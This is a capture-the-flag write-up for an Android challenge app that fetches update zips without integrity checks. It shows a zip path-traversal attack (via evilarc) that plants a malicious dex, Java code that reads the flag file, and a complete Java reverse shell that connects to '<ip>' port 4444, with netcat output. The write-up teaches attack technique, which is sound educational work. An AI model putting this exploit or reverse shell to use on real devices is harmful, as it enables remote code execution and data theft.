









# nn8ed - UpdateMe writeup

This is the original intended way to resolve this challenge, although some people surprised me by using some other creative ways

```
El truco era rootear el movil despues de que escribiera la flag, pero mi mujer me mata...
    @HackingPatatas
```

I probably should have payed a dexguard license.

## Static Analysis

This challenge consists on an Android application that downloads its own updates without using google play store, just like [Talking Tom did](https://www.nowsecure.com/blog/2015/06/15/a-pattern-for-remote-code-execution-using-arbitrary-file-writes-and-multidex-applications/). Those downloaded zips are extracted without any integrity checks therefore allowing an attacker to insert random data on it.


An initial study of the apk shows us that the flag is not hidden at plan sight and the application is slightly obfuscated



The application also has root checks, tampering protection and frida detection, as the decompiled code illustrates



There's one thing that stinks; it appears to load a dex file dynamically:

```java
public void m() {
    String a = a.a.a.a.a(17);
    StringBuilder stringBuilder = new StringBuilder();
    stringBuilder.append(a.a.a.a.a(18));
    stringBuilder.append(getApplicationContext().getFilesDir());
    stringBuilder.append(a.a.a.a.a(19));
    Log.d(a, stringBuilder.toString());
    DexClassLoader dexClassLoader = new DexClassLoader(a.a.a.a.a(20), a.a.a.a.a(21), null, getApplicationContext().getClassLoader());
    try {
        Class loadClass = dexClassLoader.loadClass(a.a.a.a.a(22));
        loadClass.getMethod(a.a.a.a.a(23), new Class[0]).invoke(loadClass.newInstance(), new Object[0]);
    } catch (ReflectiveOperationException e) {
        e.printStackTrace();
    }
    dexClassLoader.clearAssertionStatus();
}
```

It probably is the .dex file under "res/raw/anotherthing.dex". We could try to decompile the apk using apktool to study this file with more depth.



Let's try if Cutter can load the file and give us some information. In the little amount of time that cutter worked without crashing we could rescue the following code:

```
|           ;-- section_end.constpool:
|           ;-- section.code:
|           ;-- method.public.constructor.Lnn8ed_anotherthing_TheThing.Lnn8ed_anotherthing_TheThing.method._init___V:
|           ;-- ip:
/ (fcn) entry0 8
|   entry0 ();
|           0x00000130      invoke-direct {v0}, Ljava/lang/Object.<init>()V ; 0x1 ; TheThing.java:3 ; [02] -r-x section size 24 named code
\           0x00000136      return-void
            0x00000138      move/from16 v0, v0
            0x0000013c      move/from16 v0, v0
            0x00000140      filled-new-array {}, Ljava/io/PrintStream; ; 0x0 ; 0xa8
            0x00000146      nop
|           ;-- section_end.code:
|           ;-- method.static.public.Lnn8ed_anotherthing_TheThing.Lnn8ed_anotherthing_TheThing.method.doit__V:
/ (fcn) sym.Lnn8ed_anotherthing_TheThing.method.doit__V 16
|   sym.Lnn8ed_anotherthing_TheThing.method.doit__V ();
|           0x00000148      sget-object v0, Ljava/lang/System;->out Ljava/io/PrintStream; ; TheThing.java:6
|           0x0000014c      const-string v1, str.Doing_the_thing ; 0x1ee
|           0x00000150      invoke-virtual {v0, v1}, Ljava/io/PrintStream.println(Ljava/lang/String;)V ; 0x0
\           0x00000156      return-void
            0x00000158      move v0, v0
            0x0000015a      nop
            0x0000015c      move/from16 v0, v15366
```

This indicates that there is a class called "nn8ed.anotherthing.TheThing" with a method doit().

Enough information. Let's run the application.

## App execution

As we have previously seen; the apk has lots of checks in order to avoid untrusted execution environments so for this writeup I used an unrooted physical phone. If you want to try on an emulator remember that the emulators that are shipped with android studio are rooted.

Fortunately the application does not have certificate pinning so we can check what resources is downloading from the internet.



After playing a bit with the application, the android logcat shows interesting information:



Summarising:

* The flag is under "/data/user/0/nn8ed.updateme/files/flag.txt"
* The dex that is executed on runtime is placed at "/data/user/0/nn8ed.updateme/files/dex/nn8ed.anotherthing.dex"
* The update.zip is extracted after the download.

## Creating the payload

Now it comes the moment when we actually get the flag. In order to execute arbitrary code on the application we should create a new Android Library and convert it to .dex.



Inside the module we create a "TheThing" class that contains a doit() method which executes our code:

```java
private static void getFlag(String s){
    File f = new File(s);
    if (f.exists()){
        System.out.println("[+] - Flag exits in "+s);
        try {
            BufferedReader reader = new BufferedReader(new FileReader(f.getAbsolutePath()));
            System.out.println("[+] - Flag: "+reader.readLine());
        } catch (FileNotFoundException e) {
            e.printStackTrace();
        } catch (IOException e) {
            e.printStackTrace();
        }
    } else {
        System.out.println("[+] - Flag not here "+s);
    }
}

public static void doit(){
    System.out.println("[+] - Also doing the thing");
    // Get the flag
    getFlag("/data/user/0/nn8ed.updateme/files/flag.txt");
}
```

Then we should compile it to .jar and after that to convert it to .dex

```bash
➜ ../gradlew assemble

BUILD SUCCESSFUL in 0s
2 actionable tasks: 2 executed

➜ /<path to android sdk>/dx --dex --output build/libs/nn8ed.anotherthing.dex build/libs/lib.jar
➜ ls build/libs/
lib.jar                nn8ed.anotherthing.dex
```

Then we should create the .zip containing the payload. Each update has a pretty simple structure:

```bash
➜ unzip -l update_1.zip
Archive:  update_1.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
    38741  09-16-2018 17:32   a.jpg
        0  09-16-2018 22:45   __MACOSX/
      494  09-16-2018 17:32   __MACOSX/._a.jpg
---------                     -------
    39235                     3 files
```

A malicious zip could be created using [evilarc](https://github.com/ptoomey3/evilarc)

```bash
➜ python evilarc.py nn8ed.anotherthing.dex -d 10 -p "data/user/0/nn8ed.updateme/files/dex/" -o unix -f solution.zip
Creating solution.zip containing ../../../../../../../../../../data/user/0/nn8ed.updateme/files/dex/nn8ed.anotherthing.dex
➜ python evilarc.py a.jpg -d 0 -o unix -f solution.zip
Creating solution.zip containing a.jpg
➜ unzip -l solution.zip
Archive:  solution.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
     1712  09-22-2018 16:44   ../../../../../../../../../../data/user/0/nn8ed.updateme/files/dex/nn8ed.anotherthing.dex
   392350  09-22-2018 16:50   a.jpg
---------                     -------
   394062                     2 files
```

## Getting the flag

In order to modify the zip that the application downloads we could simply use burp-suite or any other proxy tool.



Simply edit the response with the malicious zip (The burpsuite paste from file tool is useful when replacing files).



When the dex file is replaced, the flag can be retrieved:



*Note: The flag is deleted when the application enters on pause so I needed to relaunch it*

If you still want more, what about a reverse shell?

```java
public static void doit(){
    System.out.println("[+] - Also doing the thing");
    getShell();
}

private static void getShell(){
    // start a reverse shell in the background
    new Thread(new Runnable(){
        @Override
        public void run() {
            try {
                reverseShell();
            } catch (Exception e) {
                e.printStackTrace();
            }
        }

    }).start();
}

private static void reverseShell() throws Exception {
    // could check to see if device is rooted
    // https://stackoverflow.com/questions/1101380/determine-if-running-on-a-rooted-device
    // final Process process = Runtime.getRuntime().exec(new String[]{"su", "-c", "system/bin/sh"}); // use if phone is rooted to get root shell...

    // create a process around the shell
    final Process process = Runtime.getRuntime().exec("system/bin/sh");

    // start a socket
    Socket socket = new Socket("<ip>", 4444);

    // server should be listen on port 4444
    // Netcat Example: nc -l -p 4444

    // forward streams until socket closes
    forwardStream(socket.getInputStream(), process.getOutputStream());
    forwardStream(process.getInputStream(), socket.getOutputStream());
    forwardStream(process.getErrorStream(), socket.getOutputStream());
    process.waitFor();

    // close the socket streams
    socket.getInputStream().close();
    socket.getOutputStream().close();
}


private static void forwardStream(final InputStream input, final OutputStream output) {
    new Thread(new Runnable() {
        @Override
        public void run() {
            try {
                final byte[] buf = new byte[4096];
                int length;
                while ((length = input.read(buf)) != -1) {
                    if (output != null) {
                        output.write(buf, 0, length);
                        if (input.available() == 0) {
                            output.flush();
                        }
                    }
                }
            } catch (Exception e) {
                // die silently
            } finally {
                try {
                    input.close();
                    output.close();
                } catch (IOException e) {
                    // die silently
                }
            }
        }
    }).start();
}
```

With the following result:

```bash
➜ nc -l -p 4444
id
uid=10371(u0_a371) gid=10371(u0_a371) groups=10371(u0_a371),3003(inet),9997(everybody),20371(u0_a371_cache),50371(all_a371) context=u:r:untrusted_app:s0:c512,c768
whoami
u0_a371
uname -a
Linux localhost 4.4.111-14023573-QB19093103 #1 SMP PREEMPT Wed Jul 25 16:35:37 KST 2018 aarch64
cat /data/data/nn8ed.updateme/files/flag.txt
nn8ed{y0um45t4lw4ysUpd4t3!}
```

## References

* https://www.nowsecure.com/blog/2015/06/15/a-pattern-for-remote-code-execution-using-arbitrary-file-writes-and-multidex-applications/
* https://www.vantagepoint.sg/blog/90-the-jiu-jitsu-of-detecting-frida
* https://sushi2k.gitbooks.io/the-owasp-mobile-security-testing-guide/content/0x05j-Testing-Resiliency-Against-Reverse-Engineering.html
* https://github.com/MichaelRocks/paranoid
* https://github.com/benjholla/AndroidReverseShell
